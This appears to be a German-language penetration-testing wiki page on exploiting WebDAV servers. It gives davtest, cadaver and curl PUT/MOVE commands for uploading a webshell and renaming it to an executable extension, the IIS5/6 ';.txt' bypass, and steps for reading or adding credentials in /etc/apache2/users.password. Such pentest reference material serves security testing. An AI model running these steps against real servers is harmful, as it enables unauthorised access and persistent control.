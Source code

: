 # WebDav

{{#include ../../banners/hacktricks-training.md}}

Wenn Sie es mit einem **HTTP-Server mit aktiviertem WebDav** zu tun haben, ist es möglich, **Dateien zu manipulieren**, wenn Sie die richtigen **Anmeldeinformationen** haben, die normalerweise durch **HTTP Basic Authentication** überprüft werden. Die Kontrolle über einen solchen Server zu erlangen, beinhaltet oft das **Hochladen und Ausführen einer Webshell**.

Der Zugriff auf den WebDav-Server erfordert typischerweise **gültige Anmeldeinformationen**, wobei [**WebDav Bruteforce**](../../generic-hacking/brute-force.md#http-basic-auth) eine gängige Methode ist, um diese zu erwerben.

Um Einschränkungen beim Hochladen von Dateien zu überwinden, insbesondere solche, die die Ausführung von serverseitigen Skripten verhindern, könnten Sie:

- **Dateien** mit **ausführbaren Erweiterungen** direkt hochladen, wenn dies nicht eingeschränkt ist.
- **Hochgeladene** nicht ausführbare Dateien (wie .txt) in eine ausführbare Erweiterung umbenennen.
- **Hochgeladene** nicht ausführbare Dateien kopieren und ihre Erweiterung in eine ausführbare ändern.

## DavTest

**Davtest** versucht, **mehrere Dateien mit unterschiedlichen Erweiterungen hochzuladen** und **überprüft**, ob die Erweiterung **ausgeführt** wird:
```bash
davtest [-auth user:password] -move -sendbd auto -url http://<IP> #Uplaod .txt files and try to move it to other extensions
davtest [-auth user:password] -sendbd auto -url http://<IP> #Try to upload every extension
```
![](<../../images/image (851).png>)

Das bedeutet nicht, dass **.txt** und **.html Erweiterungen ausgeführt werden**. Das bedeutet, dass Sie **auf diese Dateien zugreifen** können über das Web.

## Cadaver

Sie können dieses Tool verwenden, um sich mit dem **WebDav**-Server zu verbinden und Aktionen (wie **hochladen**, **verschieben** oder **löschen**) **manuell** durchzuführen.
```
cadaver <IP>
```
## PUT-Anfrage
```
curl -T 'shell.txt' 'http://$ip'
```
## MOVE-Anfrage
```bash
curl -X MOVE --header 'Destination:http://$ip/shell.php' 'http://$ip/shell.txt'
```
## IIS5/6 WebDav Verwundbarkeit

Diese Verwundbarkeit ist sehr interessant. **WebDav** erlaubt **nicht**, Dateien mit der Erweiterung **.asp** zu **hochladen** oder **umzubenennen**. Aber du kannst dies **umgehen**, indem du am Ende des Namens **";.txt"** hinzufügst, und die Datei wird **ausgeführt**, als ob es sich um eine .asp-Datei handelt (du könntest auch **".html" anstelle von ".txt" verwenden**, aber **VERGISS nicht das ";"**).

Dann kannst du deine Shell als ".**txt" Datei** **hochladen** und sie in eine ".asp;.txt" **Datei kopieren/bewegen**. Wenn du auf diese Datei über den Webserver zugreifst, wird sie **ausgeführt** (cadaver wird sagen, dass die Verschiebeaktion nicht funktioniert hat, aber das tat sie).

![](<../../images/image (1092).png>)

## Post-Anmeldeinformationen

Wenn Webdav einen Apache-Server verwendet, solltest du die konfigurierten Sites in Apache überprüfen. Üblicherweise:\
\_**/etc/apache2/sites-enabled/000-default**_

Darin könntest du etwas finden wie:
```
ServerAdmin webmaster@localhost
Alias /webdav /var/www/webdav
<Directory /var/www/webdav>
DAV On
AuthType Digest
AuthName "webdav"
AuthUserFile /etc/apache2/users.password
Require valid-user
```
Wie Sie sehen können, gibt es die Dateien mit den gültigen **credentials** für den **webdav**-Server:
```
/etc/apache2/users.password
```
In diesen Dateitypen finden Sie den **Benutzernamen** und einen **Hash** des Passworts. Dies sind die Anmeldeinformationen, die der WebDAV-Server verwendet, um Benutzer zu authentifizieren.

Sie können versuchen, sie zu **knacken**, oder weitere hinzuzufügen, wenn Sie aus irgendeinem Grund auf den **WebDAV**-Server **zugreifen** möchten:
```bash
htpasswd /etc/apache2/users.password <USERNAME> #You will be prompted for the password
```
Um zu überprüfen, ob die neuen Anmeldeinformationen funktionieren, können Sie Folgendes tun:
```bash
wget --user <USERNAME> --ask-password http://domain/path/to/webdav/ -O - -q
```
## Referenzen

- [https://vk9-sec.com/exploiting-webdav/](https://vk9-sec.com/exploiting-webdav/)

{{#include ../../banners/hacktricks-training.md}}
